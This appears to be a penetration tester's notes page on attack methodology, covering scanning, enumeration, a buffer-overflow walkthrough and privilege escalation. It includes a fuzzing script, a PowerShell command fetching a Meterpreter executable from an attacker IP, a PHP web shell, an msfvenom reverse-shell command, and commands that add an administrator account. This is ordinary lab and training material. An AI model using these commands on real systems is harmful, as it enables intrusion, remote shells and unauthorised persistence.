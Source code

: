 ```yaml
---
layout: page
title: 'Tactics Techniques and Procedures (TTP):'
permalink: /process/
published: true
---
```

## Process

__Target Identification:__

This is sometimes a given if running your own VM but if on the local network and needing to further identify targets:
	- arp-scan --localnet
    - ping sweep - using nmap -sn > insert subnet here
    - passive listening using Wireshark/tcpdump

__Enumeration:__

The never-ending process. The needle in the stack of needles. Here are some methods:

Phase 1:
    - Nmap #1: "Shotgun" scanning via the -A option (optional -sC for running default scripts).
    - Nmap #2: Extended TCP scanning -p1-65535 -sV --reason (with versioning and reason).

Phase 2: Conditional, based on output of Phase1, but often involves the following enumeration tools to find more information on resources the target is exposing:

| Service | Tool | Description |
| --- | --- | ---: |
| Web | Nikto | Vuln Scanner |
| Web | Dirb | Web Directory Scanner |
| Web | Wfuzz | Fuzzer |
| Web | Fimap | Spider/LFI/RFI |
| Web | Curl | Transfer Utility |
| SMB | Enum4linux | Network Share Scanner |
| Various | NetCat | Network Connection Utility |
{:.mbtablestyle}

Of course this is just a small sample of tools, and very focused on web exploitation. In many cases information can be gathered through investigative methods such as:
- Source code viewing (web pages, or scripts on web pages).
- Using the "strings" command to pull readable strings from downloaded files. 
- Utilizing a proxy (such as Burp Suite or Zed Attack Proxy) for analyzing, modifying, or fuzzing information from web services, although this blurrs the line a bit between a somewhat passive enumeration event and active information gathering event.

Supplied tools and intuition are sometimes not enough however and the ability to script ones own tools for the occasion are necessary. What are we if not adaptable, and so the formats used here have to be as varied as the targets. Below are some snippets of scripts that may make parts of these phases easier:

__Script Snips:__

****BASH***  
For loop example:  
	for server in $(cat $1 );do  
	host -t a $server |grep "has address"  
	done  

****Python***  
Simple socket script (with options) for sending incrementing "A's" for determining buffer overflow.  

#!/usr/bin/python  
import socket  

import argparse  

ap = argparse.ArgumentParser()  
ap.add_argument("-ip", "--ipaddress", required=True,  
        help="IP Address of host")  
ap.add_argument("-p", "--port", required=True, type=int,  
        help="Port of host")  
args = vars(ap.parse_args())  

RHOST = args["ipaddress"]  
RPORT = args["port"]  
buffer=["A"]  
counter=100  
while len(buffer) <= 30:  
   buffer.append("A"*counter)  
   counter=counter+200  
for string in buffer:  
   print "Fuzzing with %s bytes" % len(string)  
   s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
   connect=s.connect((RHOST, RPORT))  
   s.send(string + '\r\n')  
   s.recv(1024)  
s.close()  

****Powershell***  
.NET object to download a remote file:  

(new-object System.Net.WebClient).DownloadFile('http://10.9.122.8/met8888.exe','C:\Users\jarrieta\Desktop\met8888.exe')  
****PHP***  
Small Web shell:  

php system ($_GET[“cmd”]);



__BufferOverflow:__  

Some services will accept user input, but are not configured correct, in that they do not filter or allocate the correct input exactly so that sending more input than what the program is expecting will overwrite the programs execution flow and it will crash. If this is the case, sometimes a script can be created that controls this overflow behavior and instead of crashing the program, instructs it to do whatever the attacker wants (usually establishing a reverse shell or executing other malicious programs).  Below is a very short list of steps to BoF:  

__BoF Phase1:__  
1. Use a "fuzzing" script to detemrmine if the program is susceptible to crashing at a determined input amount. Use a debugger to ensure that the EIP register is overwritten with "A's".  
2. Create a unique pattern (MetaSploit's pattern_create can be used) based on the amount of data that previously crashed. Send the pattern to the program via modified script and copy the pattern that appears in the EIP.  
3. Use MetaSploit's pattern_offset tool to determine where in the unique value the EIP previously obtained, is included (what bit value, or point in the whole pattern was this bit that fit into the EIP is at).  
4. Modify script to include the crashing byte amount and the offset (set a different value for this, only 4 "B's" or \x42). Include trailing "C's" or \x43 for padding. This will be a placeholder for shellcode.  

__BoF Phase2:__  
5. Find bad characters that the program will not accept. If using Immunity debugger, the Mona module is good for this.  
6. Use this information to perform wider search for memory locations to pivot to with "JMP ESP" instruction set. This can be done via Mona using "!mona jmp -r esp -cpb "badCharacters". Focus on modules with no DEP or ASLR protections.  
7. Remember that the value found here must be placed into script used in Little-Endian format (backwards), or using a module that does this conversion for you.  

__BoF Phase3:__  
8. Shellcode generation. Sample shellcode using MSFVenom is as follows:  
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.232.130 LPORT=443 -b “\x00\x0a” EXITFUNC=THREAD -f python  
Do not forget to include the bad characters you have found via the -b option.  
9. When testing the final script NOPs (\x90) may need to be added for additional padding.  
10. Test offline and not against target before the actual attack target.  

__Exploitation:__  
After gathering substantial amount of information about targets, and finding no other footholds a search for public exploitation is in order. This can be done via simple Google search or sites like [Exploit-DB](https://www.exploit-db.com/). The exploits found need to be looked at carefully. Versioning is very important. Bitness is very important for compiling and of course, looking over the code to ensure no addtional side exploitation of the attacking matchine is hidden is important too.  

__Compiling:__  
The following is a few commands used for compiling C:

gcc inputFile.c -l outputFile - Generic Linux compile.
i686-w64-ming32-gcc inputFile.c -lws2_32 -o outputFile.exe - Linux compile for Windows executable.  

__PrivEsc:__  
Inroads. Here are some quick and common enumeration steps once low privilege is obtained:

Linux:  
find / -perm -u=s -type f 2>/dev/null  - SUID search  
ls -al /etc/passwd - Can you write to the passwd file?  
ls -al /etc/*cron* - Check out all the crons
sudo -l - Can this user do anything as root?  
ps aux | grep root - What is running as root (or insert other user)?  

Windows:  
whoami /priv  
cmdkey /list  
accesschk.exe -accepteula -qwsu "Everyone" *  - Checks for writable files and folders  
accesschk.exe -uwcqv "Everyone" * - Checks for weak service permissions  
wmic service list brief - Service list  
net start  
sc query  
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """ - Searches for unquoted service paths  
Net user newuser newpass /add - Adds user  
Net localgroup Administrators newuser /add - Adds user to group  







        
